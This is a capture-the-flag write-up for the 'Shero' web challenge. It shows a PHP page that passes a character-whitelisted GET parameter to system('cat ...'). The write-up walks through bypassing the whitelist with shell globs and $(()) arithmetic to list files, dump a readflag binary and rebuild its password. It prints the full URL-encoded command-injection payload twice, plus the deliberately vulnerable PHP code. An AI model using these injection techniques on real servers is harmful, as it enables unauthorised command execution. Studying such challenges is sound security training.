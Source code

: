 # Shero

## Solution 

The goal is to send this to the server:

```
cat | readflag sRPd45w_0
```

Since the initial `cat` is provided, only the pipe character onward needs to be included. 

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Thought process

On visiting the webpage, the webpage shows the following:

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

The webpage takes in a `GET` parameter named `f` that only allows certain whitelisted values.

The line `if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {` shows that only these characters are allowed: `. cat!?/|-[]()$`. This can be [verified](http://challs.nusgreyhats.org:12325/?f=gg) by trying a non-whitelisted character in the `f` parameter.

![whitelist only photo](WhitelistOnly.png)

The `system` call seems to suggest some form of bash injection.

The goal is to be able to find something indicative of a flag. Given that the program runs `cat`, this is insufficient to enumerate the files on the server. `ls` or another program is needed. It would also be helpful to have access to `echo` by passing it positional arguments to see what an input gets evaluated as.

Try `/?f=|/???/?c??`, which hopefully evaluates to `/bin/echo`. The `|` pipe character is used so another command can be executed instead of being passed as a positional argument to `cat`.

![echo photo](Echo.png)

It seems `echo` is running, but also running with a few other positional arguments.

It appears that `???/?c??` is expanded to space-delimited files that it has matched. In this case, `echo` was matched first, followed by the other programs. In either case, `echo` works.

Next, try to find where the flag is stored. Try to match `ls` with `/usr/bin/ls` or `/bin/ls`

![ls attempt photo](LsAttempt.png)

`ls` is not the first result. This makes `ls` impossible to match as the first result. However, googling reveals the following alternatives: `/bin/dir`.

![dir attempt photo](BinDirAttempt.png)

`/bin/dir` comes as the second result, with `/bin/cat` coming in first. The second letter can be used to differentiate the two. The result can also be cleaned up by filtering on the first level `bin` folder to return only programs in the `bin` folder.

![successful bin photo](ActualBinDir.png)

The directory structure on the server can now be viewed. The flag can be found at the root directory `/` (after a few trial and error attempts).

![dir root photo](DirRootResult.png)

Note that `/bin/sed` also matches the regex used to match `/bin/dir`, but is provided as a positional argument to `dir`. This will not affect results. The relevant results can be seen after `/:`. Specifically, there is a `flag.txt` and `readflag`.

Would a naive `cat flag.txt` work? Probably not, but worth a try.

![cat flag fail photo](CatFlagFail.png)

There are probably insufficient permissions for the web service process to print the flag directly. The `readflag` file seems to suggest that as well. `cat readflag` and examine its contents.

![cat readflag photo](CatReadFlag.png)

`readflag` seems to be an ELF executable (judging from the start of its contents). Using burpsuite, send the exact same `GET` request to dump out the executable file. Then, disassemble the file.

![readflag disassembly photo](ReadflagDisassembly.png)

It seems that `readflag` takes in a positional argument (as seen in `argv[1]`) and is compared to `s1`. `s1` has  the contents `"sRPd45w_0"` as seen in `strcpy(s1, "sRPd45w_0")`. Therefore, the command to be invoked is `cat | readflag sRPd45w_0` to obtain the flag.

However, the password string contains characters that will not pass the whitelist check. Therefore, another way must be used to obtain the string.

Note that the binary file contains the password string needed. Then, programs that could extract data based off certain byte offsets could be used to print the necessary password string.

An accidental discovery was made with `$[]` while experimenting with the bash terminal. However, `$[]` has been deprecated and is succeeded by `$(())`. `$(())` can be used to generate numbers - for example, `$((!a))` gives 1, and `$((a))`. This happens since `a` is unlikely to be a variable that has a set value, so it defaults to 0. Then, when chained with `--`, `$(( $((!a)) -- $((!a)) ))` would give 2. This can be used to generate arbitrary numbers.

With that in mind, `cut` was the first program of choice. It supports a flag specified with `-c`, allowing users to extract specific offsets of characters. However, it did not work for binary data as it often gave inconsistent results. `cut` also works on offsets relative to the start of each new line, which was not what was needed.

![readflag cut photo](ReadFlagCut.png)

It should be noted that `cut` can still generate letters, just not consistently when it comes to binary data. In this case, it does not sufficiently work.

`printf` also would not work due to `\` not being whitelisted.

However, `head` and `tail` also has a `-c` flag that allows the first N or last N bytes to be extracted respectively. Find an expression for `head` and `tail`:

![usr bin tail photo](BinTail.png)

![usr bin head photop](BinHead.png)

While `tail` has an exact match, `head` does not. However, this will not pose a problem. `head` will process both files, which can be piped into tail to extract the last character. Since the `readflag` binary comes after the `pmap` argument, it will be last in the output of `head` and allow `tail` to work on it.

![head tail chain photo](HeadTailChain.png)

An expression to print out the passwords have been found. The relevant offsets are:

```bash
head readflag -c 8199 | tail -c 1 #s
head readflag -c 8204 | tail -c 1 #R
head readflag -c 8197 | tail -c 1 #P
head readflag -c 8205 | tail -c 1 #d
head readflag -c 8198 | tail -c 1 #4
head readflag -c 8200 | tail -c 1 #5
head readflag -c 8202 | tail -c 1 #w
head readflag -c 8201 | tail -c 1 #_
head readflag -c 8203 | tail -c 1 #0
```

Combining all previously obtained knowledge, printing `s` would look like this: (some spacebars and newline added for clarity)

```bash
$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #s

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #R

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #P

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #d

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #4

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #5

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #w

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a)))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #_

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a)))))) #0
```

Apply the relevant URL encoding and strip unnecessary spaces to get the solution. It runs the equivalent of 

```bash
cat | readflag sRPd45w_0
```

on the main server.

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Similar challenges I've seen

[GryphonCTF2017](https://github.com/DISMGryphons/GryphonCTF2017-Challenges/tree/master/challenges/pwn/Bashing), based off 33c3 CTF hohoho.

